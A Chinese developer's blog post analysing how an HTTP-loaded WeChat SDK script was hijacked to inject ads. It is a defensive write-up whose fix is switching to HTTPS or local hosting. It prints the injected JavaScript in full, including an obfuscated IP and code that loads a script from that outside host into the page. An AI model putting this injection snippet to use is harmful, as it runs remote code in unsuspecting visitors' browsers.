 ```yaml
---
Title: 记一次流量劫持
Tags: 编码
PublishDate: 2018/9/17 15:15
---
```


又是填队友坑，拿到代码本地启动后发现神奇的一幕，页面被劫持插入了广告，弹出几秒钟后消失。

![jc0](http://wx3.sinaimg.cn/large/007113CZgy1fvcl8cuxcsj30bf037dgb.jpg)

让我来看看这是咋回事，因为某个微信 sdk 使用了 http，该 JS 脚本的响应结果被篡改替换了。

![jc2](http://wx3.sinaimg.cn/large/007113CZgy1fvcl8i86ugj30kq01dwei.jpg)

![jc3](http://wx4.sinaimg.cn/large/007113CZgy1fvcl8ncohpj31370ia0va.jpg)

**http://res.wx.qq.com/open/js/jweixin-1.2.0.js** 该请求因为使用了 http 给了流量劫持可乘之机，未能返回正确的脚本内容，而是返回了一个被精心构造的恶意脚本。

简单分析下这个恶意脚本做了啥，我们 http 请求 **http://res.wx.qq.com/open/js/jweixin-1.2.0.js** 的响应结果被劫持替换成了下面的脚本，这个脚本又再次构造请求带上标识符去拿到真实的内容，同时将自己的恶意脚本注入到页面上。


```javascript
!function(e, t, n, o, r, i, a, c) {
    // 这里有意思了，之后后会发现变量 c 的结果是一个 IP 地址
    // "124.232.160.178"
    // 这个 IP 地址加上拼凑的字符串变成了 http://124.232.160.178/v1/a/?u=0 
    // 通过 insertBefore 注入了恶意脚本
    c = function(e, t, n) {
        for (t = e % 256,
        n = 3; 0 < n; n--)
            t = (e = Math.floor(e / 256)) % 256 + "." + t;
        return t
    }(2095620274),
    (a = function(e) {
        r = t.createElement(n),
        i = t.getElementsByTagName(n)[0],
        r.src = "//" + e,
        i.parentNode.insertBefore(r, i)
    }
    // 这儿有点意思，似乎是为了避免重复劫持，
    // 通过时间戳和标识符再次请求我们需要的脚本，
    // 这次返回的是真实未被篡改的脚本内容
    )(o + (0 < o.indexOf("?") ? "&" : "?") + "_t" + (new Date).getTime() + "=0i"),
    // 注入恶意脚本 http://124.232.160.178/v1/a/?u=0 
    a(c + "/v1/a/?u=0")
}(window, document, "script", "res.wx.qq.com/open/js/jweixin-1.2.0.js");
```

所以解决问题的办法就是把页面上的 http 替换成 https 或是把资源放到本地存储。

顺手查一下这个 IP 地址的信息发现了一些有意思的事情，看样子是运营商的锅了，这回是哪个临时工背锅呢？

![jc4](http://wx1.sinaimg.cn/large/007113CZgy1fvcl8rf54hj30fu057glv.jpg)

![jcyys](http://wx1.sinaimg.cn/mw690/007113CZgy1fvcl8y06f5j30kf0l7417.jpg)